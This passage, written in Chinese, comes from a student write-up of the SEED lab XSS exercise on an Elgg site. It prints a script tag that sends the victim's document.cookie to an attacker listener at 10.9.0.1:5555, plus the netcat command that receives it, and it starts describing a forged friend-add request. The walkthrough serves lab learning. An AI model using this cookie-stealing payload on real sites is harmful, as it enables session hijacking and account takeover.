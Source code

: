 ### 3.4 Task 3: Stealing Cookies from the Victim’s Machine

接下来做的是在访问页面时，能够将受害者的 Cookie 信息发送到攻击者的服务器上。修改 JS 语句为：

```html
<script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + '>');</script>
```

在 shell 中使用 netcat 监听 5555 端口：

```bash
nc -lknv 5555
```

![](assets/2023-09-05-14-38-56.png)

当 Alice 访问 Samy 的个人资料页面时，会将 Alice 的 Cookie 信息发送到攻击者的服务器上，可以看到监听到了 GET 请求，参数 c 为 Alice 的 Cookie 信息：

![](assets/2023-09-05-14-41-38.png)

### 3.5 Task 4: Becoming the Victim’s Friend

下面要通过 XSS 攻击，将攻击者添加为受害者的好友。首先需要查看一个真实的好友添加请求（这部分在上一个实验中已经完成过，不再赘述），请求的 url 是 <http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1693549296&__elgg_token=fWHHA0KeGYVBWKXsaRXqyw&__elgg_ts=1693549296&__elgg_token=fWHHA0KeGYVBWKXsaRXqyw>，其中的 friend 参数是要添加的好友的 id，__elgg_ts 和 __elgg_token 是用于防止 CSRF 攻击的时间戳和 token。接下来就可以去构造攻击请求了。

